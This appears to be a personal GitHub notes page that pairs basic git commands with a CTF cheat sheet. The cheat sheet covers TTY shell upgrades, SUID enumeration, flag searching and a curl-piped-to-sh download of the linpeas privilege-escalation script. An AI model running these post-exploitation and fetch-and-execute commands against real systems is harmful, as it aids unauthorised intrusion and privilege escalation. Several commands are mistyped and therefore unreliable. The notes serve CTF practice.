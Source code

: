 # Random
Just a zunk of notes

###  Github command

```bash
git init                                                      
git remote add origin "Paste the link of the github"          
git remote -v                                                 
git add .                                                     
git commit -m "Name of the tool/subjet"                       
git push origin master.
```
### CTF Helper
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
```bash
https://gtfobins.github.io/
```
```bash
https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
```
### Python TTY Shell
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```
### Bash Shell
```bash
echo os.system('/bin/bash')
```
### shell-PostExploitation
```bash
find / -perm -u=s -type f 2>/dev/null
```
### To clear terminal after spwanning shell
```bash
export TERM=xterm
```
### Auto-complete fuction after gettting shell
```bash
stty raw - echo ; fg 
```
### Abusing SUID 
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
### Find Flags
```bash
→ find | grep flag 
→ find / -type f -name user.txt
→ find / -type -f name **name of the flag you want**
→ search -f flag*.txt #This will find the name called flag with file extension txt
```
### Quick Linux Privilege Escalataion
```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
→ chmod +x linpeas.sh 
→ ./linpeas.sh
```
